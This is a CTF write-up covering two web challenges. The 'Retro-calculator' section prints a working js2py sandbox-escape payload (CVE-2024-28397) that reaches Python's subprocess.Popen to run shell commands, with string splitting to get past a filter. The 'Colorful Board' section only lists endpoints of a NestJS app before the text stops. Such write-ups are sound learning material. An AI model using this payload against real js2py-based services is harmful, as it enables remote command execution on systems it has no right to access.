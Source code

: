 ## Retro-calculator

- Difficulty: Hard

![Retro-calculator](/static/images/deadsec-writeups/retro-calculator.png)

This one was a fun challenge, it's a simple calc the trick here is that the calculator is written js2py which is a python library that can execute javascript code.

First there wasn't any source code, so I started analyzing and fuzzing arround to see what's running under the hood, when I tried to use \`\` to execute commands I got the following error:

![Retro-calculator](/static/images/deadsec-writeups/retro-calculator-01.png)

First I thought it's totally JS backend but after searching for the error I found that it's js2py from [here](https://stackoverflow.com/questions/64855107/how-to-render-ecmascript-6-with-python)

I didn't want to start fuzzing what works and what doesn't or whether there was any WAFs, I started looking for any possible CVEs and found unresolved one [CVE-2024-28397](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape). I copied the `poc.py` payload and tried to execute, there where I started to dive into the endless "Hacking Attempts" rabbit hole.

![Retro-calculator](/static/images/deadsec-writeups/retro-calculator-02.png)

I am sure this is the worst way to go, but I kept playing around with the payload until it actually just worked (+1 for trying harder approach).

```js
let cmd = 'ls /; cat /flag.txt; '; cmd;let hacked, bymarve, n11;let getattr, obj;hacked = Object.getOwnPropertyNames({});bymarve = hacked.__getattribute__;n11 = bymarve('__getattribute__');obj = n11('__class__').__base__;getattr = obj.__getattribute__;function findpopen(o) {let result; let zed = '__sub' + 'classes__';for (let i in  o[zed]()){ let item = o[zed]()[i];let nm='__name__'; let sb='subp'+'roces';if (item.__module__ == sb+'s' &&item.__name__=='P'+'open'){return item}if(item.__name__!='type'&&(result=findpopen(item))){ return result } }};n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
```

That was weird but fun!

## Colorful Board

- Difficulty: Medium

![Colorful Board](/static/images/deadsec-writeups/colorful-board.png)

We are finally there, I liked this challenge so much and was so exicted to make a writeup for it.
This challenge is *another* source analysis, we have a nestjs application with mongodb (exicting right?) I will analyze and discuss the interesting parts of the code and the controls that we have briefly to you later understand how I crafted the exploit or how I thought about it.

We have four controllersas follow:
- `auth.controller.ts` which is responsible for the authentication and the login and registeration, it has the following endpoints:
  - `GET/POST /auth/register`
  - `GET/POST /auth/login`
- `post.controller.ts` which is responsible for the posts management, view/edit/write, it has the following endpoints:
  - `GET /post`
  - `GET /post/all`
  - `GET/POST /post/write`
  - `GET/POST /post/edit/:id` - Only Admin
  - `GET/POST /post/:id`
- `admin.controller.ts` which is responsible for the admin functions, it has the following endpoints:
  - `GET /admin/grant?username` Only localhost access
  - `GET /admin/notice` Only Admin
  - `GET /admin/report` - Anyone logged in (doesn't have to be admin)